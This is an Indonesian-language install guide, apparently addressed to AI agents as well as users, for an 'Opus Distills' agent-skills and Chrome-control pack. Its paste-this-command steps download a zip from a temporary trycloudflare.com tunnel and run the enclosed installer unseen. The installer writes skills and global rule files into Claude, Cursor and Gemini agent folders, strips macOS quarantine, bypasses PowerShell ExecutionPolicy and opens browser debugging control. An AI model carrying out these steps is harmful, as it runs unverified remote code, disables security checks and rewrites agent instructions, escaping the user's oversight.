

# 📘 PANDUAN LENGKAP INSTALASI, TESTING, ANALISIS DEVICE & TROUBLESHOOTING AI AGENT
### Universal Opus 5.5 AI Agent Skills & Cross-Platform Chrome Control Suite (v2.5-ultra)

Dokumen ini adalah panduan resmi dan manual komprehensif bagi **AI Agent** maupun **Developer/User** untuk menganalisis perangkat host, melakukan instalasi bersih, memverifikasi seluruh komponen skills, menjalankan kontrol browser interaktif (Linux, Windows, macOS), serta mengatasi berbagai potensi error secara mandiri (*self-healing*).

---

## 🧭 DAFTAR ISI
1. [Tahap 1: Analisis Perangkat & Deteksi Otomatis Host OS](#-tahap-1-analisis-perangkat--deteksi-otomatis-host-os)
2. [Tahap 2: Panduan Instalasi Lengkap (Linux, macOS, Windows)](#-tahap-2-panduan-instalasi-lengkap)
3. [Tahap 3: Prosedur Pengujian & Testing Komprehensif](#-tahap-3-prosedur-pengujian--testing-komprehensif)
4. [Tahap 4: Arsitektur Foldering & Penempatan Tools](#-tahap-4-arsitektur-foldering--penempatan-tools)
5. [Tahap 5: Matriks Penanganan Error (Troubleshooting & Fix)](#-tahap-5-matriks-penanganan-error-troubleshooting--fix)
6. [Tahap 6: Cara Kerja Agentic Loop & Deep Research](#-tahap-6-cara-kerja-agentic-loop--deep-research)

---

## 🔍 TAHAP 1: ANALISIS PERANGKAT & DETEKSI OTOMATIS HOST OS

Sebelum mengeksekusi instalasi, AI Agent **WAJIB** menjalankan inspeksi lingkungan untuk mengidentifikasi sistem operasi, arsitektur CPU, ketersediaan display server, dan path binary Google Chrome.

### 1. Script Cepat Deteksi Lingkungan (One-Liner Multi-OS)

#### Di Linux & macOS (Bash / Zsh):
```bash
python3 -c "
import os, sys, platform, shutil

os_name = platform.system()
arch = platform.machine()
is_wsl = 'microsoft' in platform.release().lower() or 'wsl' in platform.release().lower()
display = os.environ.get('DISPLAY') or os.environ.get('WAYLAND_DISPLAY') or ('Aqua (macOS)' if os_name == 'Darwin' else None)

chrome_candidates = [
    'google-chrome', 'google-chrome-stable', 'chromium', 'chromium-browser', 'brave-browser',
    '/Applications/Google Chrome.app/Contents/MacOS/Google Chrome',
    '/Applications/Brave Browser.app/Contents/MacOS/Brave Browser'
]
chrome_bin = next((c for c in chrome_candidates if shutil.which(c) or os.path.exists(c)), None)

print('=== 💻 LAPORAN ANALISIS PERANGKAT HOST ===')
print(f'• Sistem Operasi    : {os_name} ({platform.platform()})')
print(f'• Tipe Arsitektur   : {arch}')
print(f'• Lingkungan WSL    : {\"Ya (Windows Subsystem for Linux)\" if is_wsl else \"Tidak (Native)\"}')
print(f'• Display / GUI     : {display if display else \"Headless (Tidak ada display aktif!)\"}')
print(f'• Python Version    : {sys.version.split()[0]}')
print(f'• Chrome Executable : {chrome_bin if chrome_bin else \"TIDAK DITEMUKAN (Perlu install Chrome!)\"}')
print('==========================================')
"
```

#### Di Windows (PowerShell):
```powershell
powershell -Command "
$os = (Get-CimInstance Win32_OperatingSystem).Caption
$arch = $env:PROCESSOR_ARCHITECTURE
$py = (python --version 2>&1)
$chromePaths = @(
    'C:\Program Files\Google\Chrome\Application\chrome.exe',
    'C:\Program Files (x86)\Google\Chrome\Application\chrome.exe',
    \"$env:LOCALAPPDATA\Google\Chrome\Application\chrome.exe\",
    'C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe'
)
$chrome = $chromePaths | Where-Object { Test-Path $_ } | Select-Object -First 1

Write-Host '=== 💻 LAPORAN ANALISIS PERANGKAT HOST (WINDOWS) ==='
Write-Host \"• Sistem Operasi    : $os\"
Write-Host \"• Tipe Arsitektur   : $arch\"
Write-Host \"• Python Version    : $py\"
Write-Host \"• Chrome Executable : $(if ($chrome) { $chrome } else { 'TIDAK DITEMUKAN' })\"
Write-Host '===================================================='
"
```

### 2. Aturan Keputusan AI Berdasarkan Analisis:
* **Jika Host = Linux:** Gunakan folder `tools/linux/launch-visible-chrome.sh`. Pastikan variabel `DISPLAY` tidak kosong. Jika kosong pada server tanpa monitor fisik, gunakan `xvfb-run`.
* **Jika Host = macOS:** Gunakan folder `tools/macos/launch-visible-chrome.sh` atau `launch-visible-chrome.command`. Hapus atribut `com.apple.quarantine` pada tools.
* **Jika Host = Windows:** Gunakan folder `tools/windows/launch-visible-chrome.ps1` (PowerShell) atau `launch-visible-chrome.bat` (CMD).
* **Jika Python `websockets` belum terinstall:** Wajib install via `pip install websockets`.

---

## 📦 TAHAP 2: PANDUAN INSTALASI LENGKAP

Pilih salah satu metode instalasi sesuai sistem operasi perangkat.

### 🐧 Opsi A: Instalasi di Linux (Ubuntu / Debian / Arch / Fedora / WSL2)

1. **Jalankan Terminal 1-Liner:**
   ```bash
   curl -sSL "https://accuracy-translations-nights-situations.trycloudflare.com/opus_distills_universal_pack.zip" -o /tmp/opus_pack.zip && \
   mkdir -p /tmp/opus_pack && \
   unzip -q -o /tmp/opus_pack.zip -d /tmp/opus_pack && \
   bash /tmp/opus_pack/"OPUS DISTILLS"/install-default-opus.sh && \
   rm -rf /tmp/opus_pack.zip /tmp/opus_pack
   ```

2. **Apa Saja yang Dilakukan Skrip Installer Ini?**
   * Menyalin 23+ skill universal ke:
     - `~/.gemini/antigravity-cli/skills/`
     - `~/.gemini/config/skills/`
     - `~/.gemini/antigravity/skills/`
     - `~/.agents/skills/`
     - `~/.cursor/skills/` (jika ada Cursor)
     - `~/.claude/skills/` (jika ada Claude Code)
   * Menyalin master tools cross-platform ke `~/.agents/tools/` dan `~/browser-tools/`.
   * Membuat symlink executable `launch-visible-chrome` dan `cdp-agent` di `~/.local/bin/`.
   * Memasang file global rules `AGENTS.md`, `GEMINI.md`, dan `rules/opus-distills.md`.

---

### 🍏 Opsi B: Instalasi di macOS (Apple Silicon M1/M2/M3/M4 & Intel)

1. **Buka Terminal macOS dan Jalankan:**
   ```bash
   curl -sSL "https://accuracy-translations-nights-situations.trycloudflare.com/opus_distills_universal_pack.zip" -o /tmp/opus_pack.zip && \
   mkdir -p /tmp/opus_pack && \
   unzip -q -o /tmp/opus_pack.zip -d /tmp/opus_pack && \
   bash /tmp/opus_pack/"OPUS DISTILLS"/install-default-opus.sh && \
   xattr -rd com.apple.quarantine ~/.agents/tools/ 2>/dev/null || true && \
   rm -rf /tmp/opus_pack.zip /tmp/opus_pack
   ```

2. **Catatan Khusus macOS (Apple Gatekeeper & Accessibility):**
   * Perintah `xattr -rd com.apple.quarantine` diperlukan agar script browser launcher tidak dicegat oleh pop-up peringatan keamanan macOS.
   * Terminal / IDE lu (Antigravity CLI / Cursor / VS Code) perlu izin **Accessibility** di `System Settings > Privacy & Security > Accessibility` agar AppleScript dapat membawa jendela Chrome ke layar depan (*bring to front*).

---

### 🪟 Opsi C: Instalasi di Windows (PowerShell / CMD)

1. **Buka PowerShell (Run as Administrator jika perlu) dan Copas:**
   ```powershell
   # 1. Download file arsip zip
   Invoke-WebRequest -Uri "https://accuracy-translations-nights-situations.trycloudflare.com/opus_distills_universal_pack.zip" -OutFile "$env:TEMP\opus_pack.zip"
   
   # 2. Ekstrak ke folder temporary
   Expand-Archive -Path "$env:TEMP\opus_pack.zip" -DestinationPath "$env:TEMP\opus_pack" -Force
   
   # 3. Buat folder target tools dan copy
   $toolsDest = "$HOME\.agents\tools"
   $skillsDest = "$HOME\.gemini\antigravity-cli\skills"
   New-Item -ItemType Directory -Path $toolsDest -Force | Out-Null
   New-Item -ItemType Directory -Path $skillsDest -Force | Out-Null
   
   Copy-Item -Path "$env:TEMP\opus_pack\OPUS DISTILLS\tools\*" -Destination $toolsDest -Recurse -Force
   Copy-Item -Path "$env:TEMP\opus_pack\OPUS DISTILLS\skills\*" -Destination $skillsDest -Recurse -Force
   
   # 4. Pasang library Python websockets
   python -m pip install --quiet websockets
   
   # 5. Bersihkan file zip sementara
   Remove-Item "$env:TEMP\opus_pack.zip" -Force
   Remove-Item "$env:TEMP\opus_pack" -Recurse -Force
   
   Write-Host "✅ Instalasi Universal Opus Distills & Tools Windows selesai!" -ForegroundColor Green
   ```

---

## 🧪 TAHAP 3: PROSEDUR PENGUJIAN & TESTING KOMPREHENSIF

Lakukan pengujian berikut secara bertahap untuk memastikan sistem berfungsi 100%:

### 1. Test Level 1: Verifikasi Integritas File & Syntax
Pastikan tidak ada syntax error pada Python maupun JavaScript:
```bash
# Validasi JavaScript HUD
node -c ~/.agents/tools/ai-cursor-hud.js

# Validasi Python CDP Visual Agent
python3 -m py_compile ~/.agents/tools/cdp_visual_agent.py
```
*(Wajib menghasilkan output kosong dengan exit code 0)*.

### 2. Test Level 2: Verifikasi Seluruh Skills & Guardrails
Jalankan skrip verifikasi resmi:
```bash
python3 ~/.gemini/antigravity-cli/skills/opus-distills/scripts/verify_opus_standards.py --skills-dir ~/.gemini/antigravity-cli/skills
```
*(Wajib menghasilkan pesan: `🎉 All Opus Distills skills verified successfully! Total verification errors: 0`)*.

### 3. Test Level 3: Menjalankan Browser Chrome GUI
Buka jendela Chrome yang tampil nyata di monitor (headed GUI, port 9223):
* **Linux:** `bash ~/.agents/tools/linux/launch-visible-chrome.sh 9223 "https://news.ycombinator.com"`
* **Windows (PowerShell):** `powershell -ExecutionPolicy Bypass -File "$HOME\.agents\tools\windows\launch-visible-chrome.ps1" -Port 9223 -Url "https://news.ycombinator.com"`
* **macOS:** `bash ~/.agents/tools/macos/launch-visible-chrome.sh 9223 "https://news.ycombinator.com"`

### 4. Test Level 4: Menguji Perintah Kontrol Browser & Mode Agentic
Jalankan pengujian fungsi-fungsi utama melalui terminal:
```bash
# A. Periksa daftar tab aktif (format JSON terstruktur)
python3 ~/.agents/tools/cdp_visual_agent.py tabs --json

# B. Evaluasi JavaScript sederhana
python3 ~/.agents/tools/cdp_visual_agent.py eval "document.title" --json

# C. Deteksi seluruh tombol interaktif (bebas dari kebocoran elemen HUD AI)
python3 ~/.agents/tools/cdp_visual_agent.py buttons --json

# D. Ekstrak data tabel otomatis (dengan virtual scrolling)
python3 ~/.agents/tools/cdp_visual_agent.py table --format json

# E. Ekstrak konten artikel utama ke Clean Markdown
python3 ~/.agents/tools/cdp_visual_agent.py extract --format json

# F. Deep Research Dossier (TOC, Schema JSON-LD, OpenGraph, dan Markdown)
python3 ~/.agents/tools/cdp_visual_agent.py research --format json

# G. Tutup dan bersihkan seluruh overlay kontrol AI (Zero Residue)
python3 ~/.agents/tools/cdp_visual_agent.py done
```

---

## 🗂️ TAHAP 4: ARSITEKTUR FOLDERING & PENEMPATAN TOOLS

Struktur direktori dirancang modular dan terpisah berdasarkan sistem operasi:

```text
tools/ (atau skills/chrome-browser-control/scripts/)
├── README.md               <-- Master Universal Guide (Baca ini pertama kali)
├── README_LINUX.md         <-- Panduan khusus Linux (X11 / Wayland / DISPLAY=:0)
├── README_WINDOWS.md       <-- Panduan khusus Windows (PowerShell / CMD / Edge fallback)
├── README_MACOS.md         <-- Panduan khusus macOS (Terminal / .command / AppleScript)
├── cdp_visual_agent.py     <-- Cross-platform Python CDP CLI (Linux, macOS, Windows)
├── ai-cursor-hud.js        <-- Universal Live Visual HUD (Lime #CEF128 + Cyber Scramble)
├── launch-visible-chrome.sh<-- Universal Auto-Detecting Launcher
├── linux/
│   └── launch-visible-chrome.sh     <-- Launcher Linux (X11 / Wayland)
├── windows/
│   ├── launch-visible-chrome.bat    <-- Launcher Windows CMD / Batch
│   └── launch-visible-chrome.ps1    <-- Launcher Windows PowerShell
└── macos/
    ├── launch-visible-chrome.sh     <-- Launcher macOS Shell
    └── launch-visible-chrome.command<-- Double-clickable Finder launcher
```

---

## 🛠️ TAHAP 5: MATRIKS PENANGANAN ERROR (TROUBLESHOOTING & FIX)

| Gejala Error | Akar Masalah | Solusi & Cara Memperbaiki |
| :--- | :--- | :--- |
| **`Connection refused` / `Cannot connect to Chrome on port 9223`** | Chrome belum diluncurkan dengan remote debugging port aktif. | Jalankan launcher Chrome sesuai OS (`launch-visible-chrome.sh` / `.bat` / `.ps1`). Pastikan port sama (default 9223). |
| **`Address already in use` / Port 9223 bertabrakan** | Ada proses Chrome lama yang menggantung atau port dipakai aplikasi lain. | • **Linux / macOS:** Jalankan `lsof -ti :9223 \| xargs kill -9` atau `fuser -k 9223/tcp`<br>• **Windows:** Launcher `.bat` otomatis membunuh zombie port via `netstat -ano` & `taskkill /F /PID`. |
| **Windows: `File ... cannot be loaded because running scripts is disabled`** | Kebijakan ExecutionPolicy PowerShell membatasi script `.ps1`. | Jalankan dengan parameter bypass:<br>`powershell -ExecutionPolicy Bypass -File launch-visible-chrome.ps1`<br>Atau gunakan `launch-visible-chrome.bat`. |
| **macOS: `Permission denied` atau diblokir Gatekeeper** | macOS menandai file hasil unduhan dengan flag `com.apple.quarantine`. | Jalankan pembersihan karantina di terminal:<br>`xattr -rd com.apple.quarantine ~/.agents/tools/`<br>Lalu berikan izin eksekusi: `chmod +x ~/.agents/tools/macos/*.sh` |
| **macOS: Window Chrome tidak muncul ke layar depan** | Terminal/IDE belum diberikan izin AppleScript / Accessibility. | Buka `System Settings > Privacy & Security > Accessibility`, lalu tambahkan Terminal / Cursor / IDE lu ke daftar yang diizinkan. |
| **Linux: `No protocol specified` / `No display specified`** | Variabel display X11/Wayland kosong (sering terjadi di SSH atau WSL2). | Ekspor display aktif sebelum membuka browser:<br>`export DISPLAY=:0`<br>Jika di server tanpa monitor fisik, jalankan dengan frame buffer virtual: `xvfb-run -a bash launch-visible-chrome.sh 9223` |
| **`ModuleNotFoundError: No module named 'websockets'`** | Library Python websockets belum terinstall di environment aktif. | Jalankan instalasi pip:<br>`python3 -m pip install websockets` (atau `python -m pip install websockets` di Windows). |
| **HUD AI membeku di layar / tidak hilang** | Proses terhenti sebelum memanggil instruksi `done`. | Jalankan perintah pembersihan darurat:<br>`python3 ~/.agents/tools/cdp_visual_agent.py done`<br>Overlay juga memiliki proteksi otomatis: akan hilang sendiri setelah 4 detik idle. |

---

## 🔁 TAHAP 6: CARA KERJA AGENTIC LOOP & DEEP RESEARCH

Tools ini dirancang khusus untuk autonomous AI agent yang bekerja dalam siklus *agentic loop* (Sense -> Decide -> Act -> Verify):



### 3 Prinsip Utama Keamanan & Kecepatan:
1. **Zero-Miss Multi-Pass Selector:** Memadukan pencarian CSS ID, class, XPath, attribute `aria-label`, teks tombol parsial, dan leaf-node traversal.
2. **Dual-Dispatch Click:** Mengirim event mouse native level browser via CDP (`Input.dispatchMouseEvent`) bersamaan dengan in-DOM synthetic click (`element.click()`), menggaransi 0 miss klik pada aplikasi SPA modern (React, Next.js, Vue, Svelte).
3. **Strict Window Protection:** Di Chrome utama harian user, penutupan window utama diblokir keras. Hanya manajemen tab yang diizinkan, dan tab terakhir otomatis dilindungi agar jendela browser tidak tertutup tanpa sengaja.

---
*Dokumen ini merupakan bagian resmi dari paket master `OPUS DISTILLS Universal Pack`.*
